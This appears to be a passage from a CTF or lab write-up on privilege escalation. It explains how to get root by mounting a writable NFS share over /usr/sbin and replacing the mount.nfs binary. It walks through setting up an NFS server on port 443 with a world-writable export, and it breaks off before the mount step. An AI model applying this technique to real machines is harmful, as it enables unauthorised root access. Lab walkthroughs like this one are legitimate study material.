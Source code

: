 
This allow us to mount a `NFS` share, by doing this, we can achieve root, we will basically mount a writable `NFS` over `/usr/sbin` and replace the `mount.nfs` file, on this way, we can achieve root, let's do it:

We need to install `nfs-kernel-server` and enable it:

```bash
sudo apt install -y nfs-kernel-server
sudo systemctl enable --now rpcbind nfs-server
```

First, let's create a directory on our vm:

```
mkdir /tmp/share
sudo chown nobody:nogroup /tmp/share
sudo chmod 777 /tmp/share
```

Now, modify `/etc/nfs.conf` with:

```
[nfsd]
port=443
```

![Pasted image 20250702190016.png](../../IMAGES/Pasted%20image%2020250702190016.png)


We need to modify `/etc/exports` with:

```
/tmp/share *(rw,sync,no_subtree_check)
```
